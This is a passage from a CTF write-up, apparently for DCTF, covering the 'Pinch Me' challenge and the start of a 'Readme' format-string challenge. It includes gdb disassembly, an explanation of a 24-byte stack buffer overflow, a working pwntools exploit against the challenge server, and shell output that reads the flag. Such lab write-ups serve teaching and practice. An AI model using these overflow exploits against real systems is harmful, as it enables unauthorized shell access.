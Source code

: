 ```asm
   0x00000000004011c4 <+114>:    jmp    0x4011d2 <vuln+128>
   0x00000000004011c6 <+116>:    lea    rdi,[rip+0xe93]        # 0x402060
   0x00000000004011cd <+123>:    call   0x401030 <puts@plt>
   0x00000000004011d2 <+128>:    nop
   0x00000000004011d3 <+129>:    leave  
   0x00000000004011d4 <+130>:    ret    
End of assembler dump.
gef➤  
```

The vuln function has an obvious buffer overflow as same as of the Pwn Sanity only the size changed yet the vulnerability remains the same, the function checks whether the variable stored at the `rbp - 0x8` is equal to the `0x1337c0de` and if it does calls `system("/bin/sh")`, so in order to do, we know that the buffer we control the input for is stored at `rbp - 0x20` and the `rbp - 0x8` was compared to the value of `0x1337c0de`, so we can just do 0x20 - 0x8 to get the offset for the variable we need to control the input for which would be `0x20 - 0x8 = 24`, hence `24` is the offset for the comparing value, then we can just grab the flag from the server:-

```py

from pwn import *

p = remote("dctf1-chall-pinch-me.westeurope.azurecontainer.io", 7480)

payload = b"A"*24
payload += p32(0x1337c0de) # integer is 4 bytes, hence p32()

p.recvline()
p.sendline(payload)
p.interactive()

Run the exploit:-
r

❯ python3 pinch_me.py
[+] Opening connection to dctf1-chall-pinch-me.westeurope.azurecontainer.io on port 7480: Done
[*] Switching to interactive mode
Am I dreaming?
$ id
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)
$ cat flag.txt
dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}$ 
[*] Interrupted
```

### Readme

This one was a very basic format string challenge, checking the vuln function:-

```asm

gef➤  disas vuln 
Dump of assembler code for function vuln:
   0x000000000000085a <+0>:    push   rbp
   0x000000000000085b <+1>:    mov    rbp,rsp
   0x000000000000085e <+4>:    sub    rsp,0x60
   0x0000000000000862 <+8>:    mov    rax,QWORD PTR fs:0x28
   0x000000000000086b <+17>:    mov    QWORD PTR [rbp-0x8],rax
   0x000000000000086f <+21>:    xor    eax,eax
   0x0000000000000871 <+23>:    lea    rsi,[rip+0x13c]        # 0x9b4
   0x0000000000000878 <+30>:    lea    rdi,[rip+0x137]        # 0x9b6
   0x000000000000087f <+37>:    call   0x730 <fopen@plt>
   0x0000000000000884 <+42>:    mov    QWORD PTR [rbp-0x58],rax
   0x0000000000000888 <+46>:    mov    rdx,QWORD PTR [rbp-0x58]
   0x000000000000088c <+50>:    lea    rax,[rbp-0x50]
```